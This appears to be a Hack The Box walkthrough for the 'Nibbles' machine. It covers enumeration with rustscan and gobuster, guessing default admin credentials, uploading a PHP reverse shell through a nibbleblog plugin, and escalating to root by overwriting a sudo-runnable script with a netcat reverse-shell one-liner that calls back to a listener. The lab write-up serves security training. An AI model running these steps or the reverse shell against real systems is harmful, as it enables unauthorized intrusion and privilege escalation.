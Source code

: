 ```yaml
---
title: "Nibble [HTB Walkthrough]"
date: 2022-05-09T19:08:29+08:00
draft: false
tags: ["HTB"]
---
```


---

### Knowledge Gained 🙉
- sudo
- gobuster


---

## Enumeration

First, we start off a rustscan scan and the scan returned 2 open ports, port 22 SSH and port 80 HTTP.

```
rustscan -a 10.10.10.75
```

![](../../img/nib1.png)

I visited the HTTP server and its just a empty page with one line of text.

![](../../img/nib2.png)

I then checked the source code of the website and found that theres a line of **commented code** pointing to `/nibbleblog`

![](../../img/nib3.png)

I then followed to visit the page and it seems like a **blog** page.

![](../../img/nib4.png)

Next, I ran `gobuster` to find for more directories. There are a few interesting sub-directories..

```
gobuster dir -u http://10.10.10.75/nibbleblog -t 40 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt

```

## Foothold

![](../../img/nib5.png)

I first visited the `admin.php` page, seems like a login page for the admin panel. I tried the default creds for nibbleblog, but none of them worked.

![](../../img/nib6.png)

I then move on to the `/content` page and found something interesting. Under the `/private/user.xml` file, there is some info about the user account. It seems like the username of the account is `admin`.

![](../../img/nib7.png)

Now we need admin credentials. When I’m presented with an enter credentials page, the first thing I try is **common credentials** (admin/admin, admin/nibbles, nibbles/nibbles, nibbles/admin). If that doesn’t work out, I look for **default credentials** online that are specific to the technology. Last, I use a password cracker if all else fails. In this case, the common credentials `admin:nibbles` worked!

Next, I searched and see if I could find any exploit related to nibbleblog, and I found one [exploit](https://ranakhalil101.medium.com/hack-the-box-nibbles-writeup-w-o-metasploit-499ae2517ccd) that we could possibly use.

![](../../img/nib8.png)

According to the exploit, we could upload a php shell through the **image plugins**, so I followed the POC and uploaded a reverse PHP shell I got from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell)

![](../../img/nib9.png)

Then I set up a listener and invoke the reverse shell. BOOOM! We got a reverse shell back!

![](../../img/nib10.png)

While getting the user flag, I noticed there is a `personal.zip` file in the user directory also. I unzip the file and found a script inside. After using `sudo -l` , it appears that we can run this script as `sudo`! So what we need to do next is just replace the `monitor.sh` script with a reverse shell code.

![](../../img/nib11.png)

I replaced the monitor.sh file with the code I got from [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) also: 

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 9002 >/tmp/f
```

And thats it, we have succesfully rooted this box!

![](../../img/nib12.png)

Thats all for this box, thanks for reading!